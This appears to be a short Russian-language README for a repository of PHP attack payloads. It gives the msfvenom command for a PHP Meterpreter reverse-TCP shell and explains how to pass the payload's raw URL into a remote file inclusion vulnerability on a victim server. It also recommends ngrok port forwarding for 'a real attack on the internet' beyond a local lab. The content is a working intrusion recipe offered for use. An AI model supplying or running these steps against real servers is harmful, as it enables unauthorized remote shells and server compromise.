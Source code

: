 Генерируем payload php в msfvenom.

Пример:
msfvenom -p php/meterpreter_reverse_tcp LHOST ip_адрес LPORT=4444 -f raw > meterpreter_reverse_tcp.php
p.s. Если в LHOST длинное доменное имя, то пишем LHOSTдоменное_имя (слитно)

Как работать с payloadom:
1) Тыкаем на скрипт
2) Нажимаем Raw
3) Копируем ссылку
4) Вставляем в RFI

Файл local_meterpreter_reverse_tcp.php - файл с локальным ip адрессом в LHOST (сетевой адаптер в режиме NAT), используется если атакующая машинка и сервер-жертва в одной сети, и то в таком случае лучше использовать "host-only".

Для того, чтобы провести реальную атаку в интернете стоит использовать ngrok - прокидывает порты на домен (даёшь ему локальный ip и порт, а он возвращает тебе глобальный) 
